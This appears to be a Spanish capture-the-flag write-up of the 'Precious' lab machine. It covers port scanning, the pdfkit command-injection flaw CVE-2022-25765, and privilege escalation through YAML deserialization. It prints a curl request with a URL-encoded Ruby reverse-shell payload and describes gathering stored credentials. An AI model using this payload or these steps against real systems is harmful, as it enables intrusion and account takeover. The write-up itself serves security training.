Enumeración de puertos
nmap -sV -sC -p- --open 10.10.11.189 -T4 -A -vv -oN scan.txt
Encuentro los servicios ssh y http
Añado la IP a /etc/hosts
A simple vista le pasamos una url y la convierte en pdf

Hago una enumeración de endpoints con gobuster
gobuster dir -u http://precious.htb/ -w /usr/share/wordlists/dirb/big.txt
Intercepto la solicitud con Burpsuite
Me devuelve que no puede ser una URL remota por lo que creo un servidor local con httpserver para que me genere el pdf
Veo que me crea el pdf

Miro si realmente me descargó un archivo pdf con exiftool. Al analizar los metadatos me da algo que considero importante
Me da una versión de la herramienta que se usó para crear el pdf
Tras buscar la versión encuentro que es vulnerable a CMD Injection CVE-2022-25765
El espacio de nombres PdfKit proporciona funciones para leer, escribir y anotar documentos PDF
Primero tendremos que arrancar el http.server

Luego arrancamos el nc listener

Y realizamos la siguiente solicitud con curl
curl 'TARGET_ADDRESS' -X POST -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,/;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Content-Type: application/x-www-form-urlencoded' -H 'Origin: TARGET_ADDRESS' -H 'Connection: keep-alive' -H 'Referer: TARGET_ADDRESS' -H 'Upgrade-Insecure-Requests: 1' --data-raw 'url=http%3A%2F%2FLOCAL-ADDRESS%3ALOCAL-PORT%2F%3Fname%3D%2520%60+ruby+-rsocket+-e%27spawn%28%22sh%22%2C%5B%3Ain%2C%3Aout%2C%3Aerr%5D%3D%3ETCPSocket.new%28%22LOCAL-ADDRESS%22%2CLOCAL-PORT%29%29%27%60'
Obtengo el reverse
En home encuentro un usuario lllamado henry por lo que puede que tenga que hacer lateral movement

La flag de user está en henry pero no tengo permisos de lectura

Puede que en la ruta config encuentre alguna credencial

No encuentro nada interesante
Tras buscar en los directorios de ruby encuentro las credenciales de henry

A través de SSH entro como el user henry y obtengo la flag de user

Con sudo -l veo que puedo ejecutar una script como root

Hago un cat al archivo para ver si encuentro algi interesante
usal YAML por lo que es vulnerable a ataque de deserialización YAML.
Esta script se usa para administrar paquetes en Ruby
Esta parte me interesa

Creo el archivo en /dev/shm que será el que ejecute con ruby

Creo el privesc
Ahora nos da un error , la salida del id

Se pierde el id pero encontramos una ejecución como root

Estoy dentro del grupo root con henry y accedo a root ejecutandolo con -p me dará un shell efectivo con el GID y el UID como root
